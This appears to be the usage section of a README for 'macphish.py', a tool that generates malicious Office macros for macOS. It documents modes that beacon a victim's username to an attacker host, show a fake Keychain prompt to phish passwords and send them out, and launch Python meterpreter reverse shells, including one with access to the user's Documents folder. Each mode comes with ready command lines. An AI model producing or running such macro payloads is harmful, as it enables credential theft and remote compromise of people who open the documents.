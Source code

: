 # Usage
 
## beacon (Office 2011/Office 2016)
This mode generates a simple 'beacon' payload that will signal a HTTP server. This module is useful for stats/evidence when no access to user files is required. The HTTP request will include the user name that executed the payload. We are using curl here but it is very easy to change it to nslookup, ping, dig, etc.

To generate a beacon payload, simply select 'beacon' as the attack mode and set the listening hostname:

    $./macphish.py -a beacon -lh <host>

## creds (Office 2011/Office 2016)
This module generates payloads for credential phishing. This payload generates a prompt that attempts to phish user credentials abusing osascript functionality. The username is obtained from the system information which is sent along with the entered password to a HTTP server.

To generate the macro:

    $./macphish.py -a creds -m -lh <host> 

To generate the Applescript payload to be executed from a shell:

    $./macphish.py -a creds -lh <host> 
    
To customize the icon, title and message used in the dialog:

    ./macphish.py -lh <host> -a creds -t <title> -msg <msg> -i <icon>

For example, to use the keychain icon:

    ./macphish.py -lh 0xdead -a creds -t "Microsoft Word" -msg "Unlock your keychain to decrypt this file" -i "file \"Applications:Utilities:Keychain Access.app:Contents:Resources:AppIcon.icns\""

## meterpreter (Office 2011/Office 2016 with limitations)
This module generates python meterpreter payloads. In Office 2016, it will run inside the App Sandbox. 

To generate a macro that will execute a Python meterpreter payload (Note that only Python payloads will work):

    $./macphish.py -a meterpreter -lh <host> -lp <port> -p <payload type> -m

## meterpreter-grant (Office 2011/Office 2016)

This payload executes a Python meterpreter after calling GrantAccessToMultipleFiles(/Users/<user>/Documents). The meterpreter shell will have access to user documents if permissions are granted. Additionally, the document must be run from anywhere (including subfolders) inside the Documents folder.

To generate a macro that will execute a Python meterpreter payload (Note that only Python payloads will work):

    $./macphish.py -a meterpreter-grant -lh <host> -lp <port> -p <payload type> -m
